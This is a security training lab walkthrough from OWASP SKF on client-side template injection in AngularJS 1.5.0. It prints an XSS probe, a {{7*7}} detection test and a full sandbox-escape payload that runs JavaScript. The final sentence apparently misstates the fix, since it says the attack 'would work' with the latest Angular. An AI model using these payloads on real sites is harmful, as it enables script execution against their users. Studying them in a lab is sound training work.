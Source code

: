 # KBID 111 - Client Side Template Injection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```markup
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}
We are going to use the same payload of the XSS lab
{% endhint %}

```markup
"><script>alert('XSS')</script>
```

Unfortunately the alert does not trigger :(

![](../../.gitbook/assets/python/CSTI/1.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

### Step3

{% hint style="warning" %}
How do we get XSS?
{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!![](../../.gitbook/assets/python/CSTI/2.png)

{% hint style="success" %}
Bingo!!
{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox&#x20;
- forge a working payload&#x20;

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      " astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
    m2 = B(C, null, m1);
    [].push.apply = m2;
    a = "".sub;
    $eval("a(b.c)");
    [].push.apply = a;
  }
}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](../../.gitbook/assets/python/CSTI/3.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
